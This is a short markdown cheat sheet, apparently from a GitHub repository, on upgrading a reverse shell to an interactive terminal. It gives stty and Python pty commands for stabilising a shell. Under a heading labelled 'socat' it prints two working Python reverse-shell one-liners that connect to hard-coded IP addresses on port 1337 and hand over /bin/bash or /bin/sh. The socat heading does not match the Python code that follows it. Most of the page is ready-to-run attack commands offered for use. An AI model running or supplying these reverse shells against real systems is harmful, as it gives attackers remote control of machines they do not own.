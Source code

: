 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.206",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTYwMDAxNzAwLDIwODMzNDk5NjgsLTEwND
UwNDAxNzIsMTY0MDY0NTkzMCwtMTE3MDQ2OTg1MiwyMzUyNDUy
MzIsMTQ2MTc0NDA2LDE5MzgyMTE4NDYsLTE0MjUxNDA5NywxOT
EzNTkyMTkxXX0=
-->